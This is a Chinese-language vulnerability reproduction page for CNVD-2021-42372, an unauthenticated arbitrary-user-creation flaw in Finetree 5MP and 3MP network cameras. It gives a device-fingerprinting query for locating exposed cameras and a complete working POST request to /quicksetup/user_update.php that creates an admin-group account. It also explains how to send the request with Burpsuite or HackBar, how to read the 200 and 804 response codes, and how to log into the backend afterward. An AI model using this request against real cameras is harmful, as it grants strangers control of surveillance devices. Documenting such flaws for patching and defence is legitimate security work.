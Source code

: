 # Finetree 5MP 摄像机 user_pop.php 任意用户添加漏洞 CNVD-2021-42372

## 漏洞描述

Finetree 5MP 摄像机 user_pop.php文件存在未授权任意用户添加，攻击者添加后可以获取后台权限

## 漏洞影响

```
Finetree 5MP
Finetree 3MP
```

## 网络测绘

```
app="Finetree-5MP-Network-Camera"
```

## 漏洞复现

登录页面

![image-20220519162837184](./images/202205191628247.png)

存在漏洞的文件 user_pop.php

![image-20220519163003628](./images/202205191630679.png)

```
POST /quicksetup/user_update.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 58
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=fn4qnpv5c8a2jgvf53vs1gufm6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

method=add&user=admin1234&pwd=admin1234&group=2&ptz_enable=0
```

可以Burpsuite发送POST请求

![image-20220519163205310](./images/202205191632366.png)

或者HackBar发送POST请求，返回200即为添加成功，返回804则为用户重复

![image-20220519163124031](./images/202205191631102.png)

利用添加的账户可以登录后台

![image-20220519163442946](./images/202205191634048.png)